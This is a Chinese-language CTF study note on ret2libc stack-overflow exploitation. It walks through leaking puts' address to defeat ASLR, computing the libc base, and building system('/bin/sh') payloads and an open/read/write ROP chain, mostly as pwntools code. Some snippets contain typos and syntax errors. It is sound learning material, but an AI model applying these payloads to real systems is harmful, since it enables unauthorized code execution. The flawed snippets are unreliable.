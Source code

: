 其实，我们的 `ret2libc` 的过程，就是一个在我们的大量数据中，找到一个有用数据的过程。
而因为我们的操作系统是默认开启了 ASLR 防护的，因此我们内存中的 `share libraries` 段的地址是随机的，
## 找函数地址
如果我们想要通过我们的栈溢出漏洞去执行一个函数，我们可以通过下面的方法来进行

### 直接劫持
方法一：对于我们之前**有过一次执行**的函数，我们把我们的程序执行流劫持到我们的 `system@plt`）：
这一种方法类似于我们的 `ret2shellcode`，但是相比较之下，所需要的条件更少。
此时，我们可以构造出我们的 payload 如下所示：
```
payload=system@plt+垃圾数据+system@plt的地址
```

另外，如果我们采用了我们的 `ret2libc`，那么我们也可以仿照我们的 `ROp` 链一样，同时执行多个我们需要的函数，只需要按照下面的方式构造：
```
payload=func1+pop_ret+func1地址+fuc2+pop_ret+func2地址+fuc2+pop_ret+func3地址
```

### 间接获取
如果我们的函数完全没有任何的出现，我们仍然可以通过下面的方法来获取到我们的真实函数的地址。
![[Pasted image 20240116182500.png]]
第一步：获取我们的 `libc` 文件的版本，这一步我们可以通过我们的库函数来实现
```python
elf=ELF('./babyof')
```

第二步：获得我们的 libc 文件的基地址。这一步，我们的思路是：通过我们已知的 `puts` 函数来打印自己在 libc 文件中的文件中的地址，然后我们把这个数据接受下来，之后我们再一次调用我们的原函数。具体的 payload 如下所示如下所示：
这里，我们就有：
```python
payload=垃圾数据+puts函数的plt地址+main函数的地址+puts函数的got地址
```
其中，我们的第一个 puts 函数是我们要执行的函数，而他的参数就是我们的第三个变量，`puts` 函数的 got 地址。而我们的 `main` 函数的地址就是告诉我们我们还要再执行一遍我们的函数。

```python
payload_1 = b'M'*(0xE7+4) + p32(puts_plt) + p32(main_addr) + p32(puts_got) r.sendline(payload_1) r.recvline() 
puts_addr = u32(r.recv(4)) 
print("puts_addr: " + hex(puts_addr))
```
64 位情况下的方法 (主意栈平衡）：
```python
payload_1=b"a"*offset + p64(pop_rdi) + p64(xx@got) + p64(xx@plt) + p64(ret_addr)
```


第三步：查找相应函数的偏移量，这里，我们可以使用我们的相关函数如下所示：
```python
base_addr = puts_addr - libc.symbols['puts'] system_addr = base_addr + libc.symbols['system'] bin_sh_addr = base_addr + next(libc.search(b'/bin/sh')) print("system_addr: " + hex(system_addr)) print("bin_sh_addr: " + hex(bin_sh_addr))
```

第四步：我们根据我们得到的偏移函数，来找到我们的对应的 payload
```cpp
payload_2 = b'M'*(0xE7+4) + p32(system_addr) + b'M'*4 +p32(bin_sh_addr) 
r.sendline(payload_2)
r.interactive()
```
64 位位下的方法：
```
payload_2=b'M'*offset+p64(ret)p64(pop_edi)+p64(/bin/sh)
```

## 限制了 system 调用
这一个和我们的唯一的区别在于我们的最后一步 payload 的构造。
```python
payload=b'a'*0x10
payload+=p64(rdi)+p64(0)+p64(rsi)+p64(flag)+p64(rdx_r12)+p64(8)*2+p64(read);
# 把我们的flag写进buf
payload+=p64(rdi)+p64(flag)+p64(rsi)+p64(0)+p64(rdx_r12)+p64(0)*2+p64(open_)
# 打开我们的flag
payload+=p64(rdi)+p64(3)+p64(rsi)+p64(buf)+p64(rdx_r12)+p64(0x30)*2+p64(read)
# 读取我们的文件
payload+=p64(rdi)+p64(1)+p64(write)
# 写我们的文件
```